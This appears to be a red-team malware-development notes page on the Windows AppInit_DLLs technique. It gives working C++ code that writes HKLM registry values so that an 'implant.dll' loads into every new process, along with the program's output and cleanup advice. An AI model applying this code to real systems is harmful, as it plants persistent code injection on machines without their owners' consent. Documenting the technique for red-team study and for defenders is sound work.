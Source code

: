 ```yaml
---
title: AppInit
category: Maldev-Hooking
order: 3
---
```


AppInit (Application Initialization) is an infrastructure designed to allow developers to run custom code or modify the behavior of processes during the initialization phase of applications. It was primarily used in Windows operating systems prior to Windows 8.

So every process whill check the following two registers at startup:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs
```

If `LoadAppInit_DLLs` is set to `1` will load the dll specified on `AppInit_DLLs` registry.

> **Note**: Local admin needed to modify `HLKM` registries.

So we just need to modify both registries:


# Code

```cpp
#include <windows.h>
#include <stdio.h>
#include <winreg.h>

#pragma comment(lib, "Advapi32.lib")

int main(void) {

    HKEY hKey;
    char * AppInit_data = "c:\\tools\\rtnotes\\implant.dll";
    DWORD LoadInit_data = 0x1;
    DWORD bytesOut = 0;

    LSTATUS stat = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0, KEY_READ | KEY_SET_VALUE, &hKey);
    if (stat == ERROR_SUCCESS)
        printf("[+] RegOpenKeyExA successfull!\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        return -1;
    }

    //setting up AppInit_DLLs
    stat = RegSetValueExA(hKey, "AppInit_DLLs", 0, REG_SZ, (BYTE *) AppInit_data, strlen(AppInit_data));
    if (stat == ERROR_SUCCESS)
        printf("[+] AppInit_DLLs modified\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        RegCloseKey(hKey);
        return -1;
    }

    //setting up LoadAppInit_DLLs
    stat = RegSetValueExA(hKey, "LoadAppInit_DLLs", 0, REG_DWORD, (BYTE *) &LoadInit_data, sizeof(LoadInit_data));
    if (stat == ERROR_SUCCESS)
        printf("[+] LoadAppInit_DLLs modified\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        RegCloseKey(hKey);
        return -1;
    }

    RegCloseKey(hKey);
    return 0;
}
```

After the execution we can manually check the registries and see that our `implant.dll` is successfully added to the  `AppInit_DLLs` registry hive.

```
C:\Tools\rtnotes>.\rtnotes.exe
[+] RegOpenKeyExA successfull!
[+] AppInit_DLLs modified
[+] LoadAppInit_DLLs modified
```

![](/rtnotes/images/appinit-registries.png)

Finally we can launch any proccess for example a notepad and we can check that the `implant.dll` is successfuly loaded to each new process.


![](/rtnotes/images/appinit-executed.png)


> **Note**: Remember to change to 0 the `HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs` registry to `0` to stop loading the DLL.